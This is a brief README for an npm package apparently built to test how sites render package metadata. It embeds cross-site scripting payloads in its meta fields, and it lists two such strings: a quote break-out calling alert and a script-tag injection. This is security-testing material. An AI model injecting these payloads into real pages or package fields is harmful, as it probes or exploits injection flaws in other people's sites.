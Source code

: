 # xss-npm

[![Greenkeeper badge](https://badges.greenkeeper.io/kozmic/xss-npm.svg)](https://greenkeeper.io/)
NPM package with XSS payloads in meta fields.

# Payloads
```
';alert(1);//
"><script>alert(2);</script>
```


# Payloads raw
';alert(1);//
"><script>alert(2);</script>
